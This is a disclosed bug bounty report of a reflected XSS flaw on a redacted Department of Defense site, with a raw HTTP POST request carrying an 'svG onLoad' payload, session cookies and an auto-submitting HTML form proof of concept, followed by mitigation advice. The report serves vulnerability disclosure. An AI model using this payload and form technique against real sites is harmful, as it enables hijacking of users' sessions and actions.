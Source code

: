 # RXSS on █████████

## Report Details
- **Report ID**: 1555582
- **URL**: https://hackerone.com/reports/1555582
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-05-01T04:42:02.608Z
- **Disclosed**: 2022-06-10T14:44:08.611Z

## Reporter
- **Username**: tmz900
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
I found RXSS on https://███████/██████

## Impact

Perform any action within the application that the user can perform.
View any information that the user is able to view.
Modify any information that the user is able to modify.
Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

## System Host(s)
████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Inject payload `r={payload}`

1.  Copy and paste on Burpsuite Repeater:
```
POST /███ HTTP/1.1
Host: ████████
Cookie: CFID=26233; CFTOKEN=90ba2403db7cf6d0-EA17C9CD-25F4-FB4C-2DEC8DEF637D9544; JSESSIONID=4837C2581F93ABB4DC8F719B2881FA98.cfusion; USAASCpersistence=184943114.20480.0000; TS0102adba=01dbba97f7cb238df71647f1b721444c13c907477d6bbbdab26080274d698141cbde7445d9eac690029443ecf71a098be9ddf1b4285cb4c9fdec0c2d52e8c64f27a783caa91d63c57bc0492f850ce173197907096e69fb1671e87db9318cbbea85dad29ef8ff28ef59a7467ca3f87758b8d9f1ce8c
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: https://██████████
Referer: https://████████/███████
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

r=%22><svG%20onLoad=alert(9)>&btnAction=I+understand+and+accept
```
2. View the result:
███████
████████

3. You can use this code to test on html files :
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://█████/████" method="POST">
      <input type="hidden" name="r" value="&quot;&gt;&lt;svG&#32;onLoad&#61;alert&#40;9&#41;&gt;" />
      <input type="hidden" name="btnAction" value="I&#32;understand&#32;and&#32;accept" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

## Suggested Mitigation/Remediation Actions
Filter input on arrival
Encode data on output
Use appropriate response headers
Content Security Policy.



## Attachments
No attachments
